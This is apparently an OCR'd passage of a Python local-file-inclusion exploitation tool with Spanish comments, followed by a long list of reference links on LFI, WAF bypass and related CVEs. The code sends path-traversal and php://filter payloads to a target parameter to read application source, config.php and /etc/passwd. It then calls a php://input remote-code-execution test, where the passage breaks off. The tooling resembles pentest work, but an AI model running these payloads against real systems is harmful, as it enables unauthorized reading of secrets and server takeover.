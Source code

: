 ```python
                    # Detectar lectura exitosa
                    if self._is_file_read_successful(response, target_file):
                        vulnerable_files.append({
                            'file': target_file,
                            'payload': payload,
                            'content_preview': response.text[:500],
                            'method': 'basic_traversal'
                        })
                        print(f"[+] LFI confirmado: {target_file} con payload {payload}")
                        break
                  
                except requests.RequestException as e:
                    continue
  
        return vulnerable_files
  
    def test_php_wrappers(self):
        """
        Prueba wrappers PHP para lectura y RCE
        """
        vulnerable_wrappers = []
  
        # Wrapper php://filter
        filter_payloads = [
            'php://filter/convert.base64-encode/resource=index.php',
            'php://filter/read=string.rot13/resource=config.php',
            'php://filter/resource=/etc/passwd'
        ]
  
        for payload in filter_payloads:
            try:
                response = self.session.get(
                    self.base_url,
                    params={self.param: payload},
                    timeout=10
                )
          
                if response.status_code == 200 and len(response.text) > 100:
                    # Intentar decodificar base64 si aplica
                    if 'base64-encode' in payload:
                        try:
                            decoded = base64.b64decode(response.text).decode('utf-8')
                            if '<?php' in decoded:
                                vulnerable_wrappers.append({
                                    'wrapper': payload,
                                    'type': 'php_filter_source_disclosure',
                                    'decoded_content': decoded[:500]
                                })
                                print(f"[+] PHP Filter funciona: {payload}")
                        except:
                            pass
                    else:
                        vulnerable_wrappers.append({
                            'wrapper': payload,
                            'type': 'php_filter_read',
                            'content': response.text[:500]
                        })
                  
            except requests.RequestException:
                continue
  
        # Wrapper php://input para RCE
        if self._test_php_input_rce():
```

[^1]: https://virtualcyberlabs.com/local-file-inclusion-lfi/
[^2]: https://atlansec.es/blog/posts/06-04-2025/
[^3]: https://www.invicti.com/learn/local-file-inclusion-lfi/
[^4]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_File_Inclusion
[^5]: https://www.offsec.com/metasploit-unleashed/file-inclusion-vulnerabilities/
[^6]: https://www.hackplayers.com/2018/12/race-condition-phpinfo-mas-lfi-rce.html
[^7]: https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition
[^8]: https://www.fastly.com/blog/back-to-basics-directory-traversal
[^9]: https://www.invicti.com/learn/directory-traversal-path-traversal/
[^10]: https://www.invicti.com/blog/web-security/php-stream-wrappers/
[^11]: https://infosecwriteups.com/rce-via-lfi-oscp-tactics-for-code-execution-and-gaining-a-foothold-on-a-system-b35d0655f3c7
[^12]: https://nsfocusglobal.com/path-traversal-attack-protection/
[^13]: https://www.slideshare.net/slideshow/waf-bypassing-techniques/64302972
[^14]: https://bugbase.ai/blog/top-10-ways-to-bypass-waf
[^15]: https://bogner.sh/2018/04/race-to-rce-there-is-more-on-the-web-than-just-xss/
[^16]: https://github.com/topics/lfi-detection?o=asc\&s=updated
[^17]: https://www.acunetix.com/vulnerability-scanner/lfi-vulnerability-scanner/
[^18]: https://stackoverflow.com/questions/64088681/how-to-test-and-exploit-lfi-vulnerabilities
[^19]: https://www.brightsec.com/blog/lfi-attack-real-life-attacks-and-attack-examples/
[^20]: https://www.avertium.com/flash-notices/wordpress-review-plugin-local-file-inclusion
[^21]: https://support.polarisec.com/en/docs/general-knowledge/lfi-and-rfi-attacks/
[^22]: https://github.com/advisories/GHSA-qq86-38fr-rcf3
[^23]: https://nvd.nist.gov/vuln/detail/CVE-2025-49138
[^24]: https://github.com/advisories/GHSA-p75g-cxfj-7wrx
[^25]: https://www.cvedetails.com/cve/CVE-2025-51057/
[^26]: https://owasp.org/www-community/attacks/Path_Traversal
[^27]: https://www.exploit-db.com/exploits/52125
[^28]: https://portswigger.net/web-security/file-path-traversal
[^29]: https://www.riskinsight-wavestone.com/en/2022/09/barbhack-2022-leveraging-php-local-file-inclusion-to-achieve-universal-rce/
[^30]: https://nvd.nist.gov/vuln/detail/CVE-2025-26905
[^31]: https://techbrunch.github.io/patt-mkdocs/Directory Traversal/
[^32]: https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-2/
[^33]: https://www.cve.org/cverecord?id=CVE-2025-0632
[^34]: https://www.aikido.dev/blog/path-traversal-in-2024-the-year-unpacked
[^35]: https://patchstack.com/articles/critical-lfi-to-rce-vulnerability-in-wp-ghost-plugin-affecting-200k-sites/
[^36]: https://wpscan.com/vulnerability/7570bd32-f660-44e7-abc6-5d4ea369fe30/
[^37]: https://advisories.checkpoint.com/defense/advisories/public/2024/cpai-2024-0395.html/
[^38]: https://deephacking.tech/php-wrappers-pentesting-web/
[^39]: https://www.cobalt.io/blog/a-pentesters-guide-to-file-inclusion
[^40]: https://brightsec.com/blog/local-file-inclusion-lfi/
[^41]: https://4geeks.com/lesson/local-file-inclusion-remote-file-inclusion
[^42]: https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass
[^43]: https://github.com/topics/lfi-scanner
[^44]: https://www.yeswehack.com/learn-bug-bounty/practical-guide-path-traversal-attacks
[^45]: https://medium.verylazytech.com/enhancing-your-understanding-of-local-file-inclusion-lfi-35a26f9efadd
[^46]: https://code.google.com/archive/p/teenage-mutant-ninja-turtles/wikis/AdvancedObfuscationPathtraversal.wiki
[^47]: https://fluidattacks.com/es/advisories/silva
[^48]: https://hackmd.io/@Solderet/list/%2FgZFHwwuQQo6ya_Q6ULYrdA
[^49]: https://www.scribd.com/document/857621425/Advanced-LFI-Bypass-Techniques
[^50]: https://gynvael.coldwind.pl/?id=418
[^51]: https://waf-bypass.com/2025/03/page/2/
[^52]: https://help.fortinet.com/fweb/605/Content/FortiWeb/fortiweb-admin/web_protection.htm
[^53]: https://www.youtube.com/watch?v=5g137gsB9Wk
[^54]: https://infosecwriteups.com/️-how-to-bypass-web-application-firewalls-wafs-8346e6e79dd3
[^55]: https://github.com/SpiderLabs/owasp-modsecurity-crs/issues/783
[^56]: https://waf-bypass.com/2025/05/